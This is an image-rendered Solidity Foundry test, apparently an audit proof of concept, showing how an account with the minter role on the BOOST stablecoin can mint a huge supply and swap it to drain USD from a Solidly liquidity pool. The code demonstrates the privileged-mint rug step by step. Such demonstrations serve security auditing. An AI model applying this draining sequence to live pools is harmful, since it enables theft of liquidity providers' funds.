 ```solidity


    // Minter can inflate the token supply and rug LPs
    function testMinterRug() public {

        // User2 obtains BOOST stablecoin by swapping USD for BOOST within the Pool.
        address user2 = makeAddr("user2");
        usd.mint(user2, 100e6);
        vm.startPrank(user2);
        usd.approve(address(solidlyV2Router), 100e6);
        ISolidlyRouter.route[] memory path = new ISolidlyRouter.route[](1);
        path[0] = ISolidlyRouter.route({from: address(usd), to: address(boost), stable: true});

        uint256[] memory amounts = solidlyV2Router.swapExactTokensForTokens(
            100e6,
            0,
            path,
            user2,
            block.timestamp + 1 days
        );

        assertApproxEqRel(amounts[1], 100e18, 1e16);

        console2.log("Pool Balances After 1 lp & swap");
        console2.log("Pool USD balance: ", usd.balanceOf(address(solidlyV2Pair)));
        console2.log("Pool BOOST balance: ", boost.balanceOf(address(solidlyV2Pair)));

        // The attacker can now rug the pool
        vm.startPrank(admin);
        boost.grantRole(boost.MINTER_ROLE(), address(this));
        vm.stopPrank();

        console2.log("Permissioned attacker minting 100,000,000e18 BOOST...");
        boost.mint(address(this), 100_000_000e18);
        boost.approve(address(solidlyV2Router), boost.balanceOf(address(this)));

        console2.log("Attacker BOOST balance: ", boost.balanceOf(address(this)));
        console2.log("Attacker USD balance: ", usd.balanceOf(address(this)));
        
        ISolidlyRouter.route[] memory path2 = new ISolidlyRouter.route[](1);
        path2[0] = ISolidlyRouter.route({from: address(boost), to: address(usd), stable: true});

        console2.log("Attacker swapping all BOOST for USD...");
        solidlyV2Router.swapExactTokensForTokens(
            boost.balanceOf(address(this)),
            0,
            path2,
            address(this),
            block.timestamp + 1 days
        );

        console2.log("Attacker USD balance: ", usd.balanceOf(address(this)));
        console2.log("Pool USD balance: ", usd.balanceOf(address(solidlyV2Pair)));
        console2.log("Pool BOOST balance: ", boost.balanceOf(address(solidlyV2Pair)));
        console2.log("Price of BOOST: ", solidlyV2AMO.boostPrice());
        // revert("done");
    }

    function _initLiquidity() internal {
        address user = makeAddr("user");

        usd.mint(user, 100_000e6);

```